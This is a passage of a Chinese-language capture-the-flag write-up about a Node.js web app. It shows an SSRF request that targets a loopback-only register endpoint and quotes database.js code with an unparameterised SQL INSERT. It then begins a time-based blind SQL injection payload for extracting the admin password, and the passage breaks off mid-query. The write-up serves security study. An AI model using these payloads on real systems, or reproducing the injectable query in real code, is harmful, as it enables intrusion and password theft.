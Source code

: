      * 既然register接口没有预编译，那么它就存在sql注入漏洞，就有办法通过它读取admin的密码
   
     * register前面检查了请求必须由回环地址提交，那么我们就通过它的查询天气接口`/api/weather`进行SSRF攻击调用它的register接口，读取密码，构造payload
   
     * 发现查询天气接口调用天气网站时使用的Get请求，但是可以提交注册账号信息的register是Post请求
   
     * 只能通过如下payload命中`/register`的Get方法获取到注册页面，无法命中Post方法，无法注册账号
   
       ```http
       POST /api/weather HTTP/1.1
       Host: IP:Port
       Proxy-Connection: keep-alive
       Content-Length: 85
       Content-Type: application/json
       Accept: */*
       Accept-Encoding: gzip, deflate
       Accept-Language: zh-CN,zh;q=0.9
       
       {"endpoint":"127.0.0.1/register#","city":"","country":""}
       ```
   
     * 第一次觉得Get和Post离得那么遥远
     
     * 因为它把SSRF的Response也进行了逻辑处理，所以使用SSRF进行目录遍历也不可能
     
     * 因为NodeJS服务通过routes/index.js进行路由，所以文件读取也基本不可能
   
5. 对源代码继续分析

   * database.js

     ```javascript
     async register(user, pass) {
         // TODO: add parameterization and roll public
         return new Promise(async (resolve, reject) => {
             try {
                 let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
                 resolve((await this.db.run(query)));
             } catch(e) {
                 reject(e);
             }
         });
     }
     ```

     * 有一个注释，提到了新增参数设定并使他变为public，猜测是原型链污染
     
     * 该SQL的利用方式可以是基于时间的盲注，前提是能调用POST方法访问注册接口
     
       * SQL
     
         * 当admin的第i位是j时执行randomblob生成800000000个字符的随机字符串，从而使其产生数倍的SQL执行时间，从而影响到请求的响应时间，通过响应时间的长度来判断本次请求是否符合admin密码的第i位
     
         ```sql
         INSERT INTO 
         	users (username, password) 
         VALUES 
         	(
                 '176kdadasfadsflkj', 
                 '123'+(
                         case when 
                                 substr(
                                     (
                                         SELECT SUBSTR(password,1,1) 
                                         FROM users 
                                         WHERE username='admin'
                                     ),1,1)='5' 
                         then 
                         	randomblob(800000000) 
                         else 